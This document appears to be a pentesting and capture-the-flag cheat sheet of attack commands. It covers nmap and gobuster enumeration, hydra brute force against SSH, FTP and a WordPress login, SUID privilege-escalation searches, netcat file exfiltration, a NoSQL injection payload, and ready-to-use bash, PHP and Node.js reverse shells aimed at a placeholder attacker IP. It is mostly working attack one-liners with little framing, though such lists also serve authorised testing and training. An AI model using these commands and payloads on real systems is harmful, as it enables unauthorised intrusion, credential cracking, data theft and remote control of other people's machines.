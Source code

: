 # Network and Web Enumeration

## Port Scanning and Service Detection

```bash
nmap -sV -p- <TARGET_IP>
```

## Directory and File Discovery

```bash
gobuster dir -u http://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,js
```

```bash
gobuster dir -u https://<TARGET_IP> -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

## SMB and NetBIOS Enumeration

```bash
enum4linux <TARGET_IP>
```

# File Transfer Methods

## HTTP Server Setup

```bash
python -m SimpleHTTPServer
```

```bash
wget http://<ATTACKER_IP>:8000/<FILE_NAME>
```

## Netcat File Transfer

```bash
nc -lvnp 5555 > <FILE_NAME>
```

```bash
nc <ATTACKER_IP> 5555 < <FILE_NAME>
```

## Secure File Transfer

```bash
scp <USER_NAME>@<TARGET_IP>:<FILE_NAME> .
```

# Linux Privilege Escalation and System Commands

## Privilege and Permission Analysis

```bash
sudo -l
```

```bash
find / -perm -u=s -type f 2>/dev/null
```

```bash
find / -user <USER_NAME> -type f 2>/dev/null
```

## Shell Upgrade and Stabilization

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# Windows Privilege Escalation and System Commands

```bash
evil-winrm -i <TARGET_IP> -u <USER_NAME> -p <PASSWORD>
```

```bash
net user <USER_NAME> <PASSWORD>
```

# Steganography and Image Analysis

## Metadata Extraction

```BASH
exiftool <IMAGE_NAME>.jpg
```

## Hidden Data Extraction

```bash
steghide extract -sf <IMAGE_NAME>.jpg
```

```bash
binwalk -e <IMAGE_NAME>.png
```

## Binwalk Compatibility Fix

```Bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

# Password Generation and Cracking

## Custom Wordlist Generation

```bash
crunch 18 18 -t '@@@@' > file.txt
```

## Network Service Brute Force Attacks

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ssh://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt ftp://<ATTACKER_IP>
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-get -s 8080 /
```

```bash
hydra -l <LOGIN> -P /root/Tools/wordlists/rockyou.txt <ATTACKER_IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"
```

## Archive Password Cracking

```bash
zip2john <FILE_NAME>.zip > hash.txt
john hash.txt
```

# File Transfer Protocol (FTP) Operations

## Basic FTP Commands

```bash
ftp <TARGET_IP>
anonymous
ls -la
get <FILE_NAME>
mget *
put <FILE_NAME>
```

# Server Message Block (SMB) Enumeration

## SMB Share Discovery

```bash
smbclient -L //<TARGET_IP> -N
```

```bash
smbclient -L //<TARGET_IP> -U <USER_NAME>
```

# Reverse Shell Techniques

## Netcat Listener Setup

```bash
nc -lvnp 4444
```

## Bash Reverse Shells

```bash
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' > script.sh
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 > /tmp/f" > script.sh
```

## PHP Reverse Shells

```php
<?php
$ip = '0.0.0.0';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'");
?>
```

## Node.js Reverse Shell

```js
require("child_process").exec(
  "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> 4444 >/tmp/f"
);
```

# Metasploit Framework Usage

## Metasploit Commands

```bash
msfconsole
show options
set
run
```

# MongoDB

## Database Navigation Commands

```bash
mongo
show dbs
use
```

## NoSQL Injection Payloads

```
{"username":"test","password":{"$ne":""}}
```

# Online Tools and Resources

- [CyberChef](https://gchq.github.io/CyberChef/)
- [dCode](https://www.dcode.fr/en)
- [GTFOBins](https://gtfobins.github.io/)
- [Exploit Database](https://www.exploit-db.com/)
